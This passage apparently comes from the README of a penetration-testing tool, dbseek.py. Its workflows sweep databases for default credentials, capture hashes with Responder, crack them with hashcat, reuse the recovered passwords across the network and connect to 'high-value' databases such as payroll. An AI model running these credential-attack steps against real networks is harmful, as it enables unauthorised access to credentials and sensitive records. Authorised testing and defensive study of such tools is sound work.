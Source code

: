 ### Workflow 2: Default Credential Sweep
```bash
# 1. Test all default credentials
./dbseek.py -t -w 20

# 2. Extract working credentials
cat db_creds.txt

# 3. Connect to vulnerable hosts
mysql -h 192.168.1.50 -u root
# (blank password)
```

### Workflow 3: Responder Integration
```bash
# Terminal 1: Responder
sudo responder -I eth0 -wrf

# Wait for credential capture...
# [MSSQL] User: DOMAIN\dbadmin
# Hash: [hash]

# Terminal 2: Crack (if needed)
hashcat -m 5600 hash.txt rockyou.txt
# Result: Password123!

# Terminal 2: Test credential across network
./dbseek.py -u dbadmin -p Password123! -v -e

# Review accessible databases
cat db_details.txt | grep "Databases:"
```

### Workflow 4: Database Enumeration
```bash
# 1. Enumerate with working creds
./dbseek.py -u admin -p pass -e

# 2. Parse database names
cat db_details.json | jq -r '.[] | select(.services[].databases) | .ip + ": " + (.services[].databases | join(", "))'

# Example output:
# 192.168.1.50: mysql, hr_database, payroll, customer_data
# 192.168.1.51: postgres, financial_records, employee_db

# 3. Target high-value databases
mysql -h 192.168.1.50 -u admin -ppass -D payroll
```

### Workflow 5: Post-Exploitation
```bash
# 1. Full scan with enumeration
./dbseek.py -t -e -w 20

# 2. Select target from results
# 192.168.1.50 - MySQL - root:(blank) - Databases: payroll

# 3. Connect
mysql -h 192.168.1.50 -u root

# 4. Enumerate tables
mysql> USE payroll;
```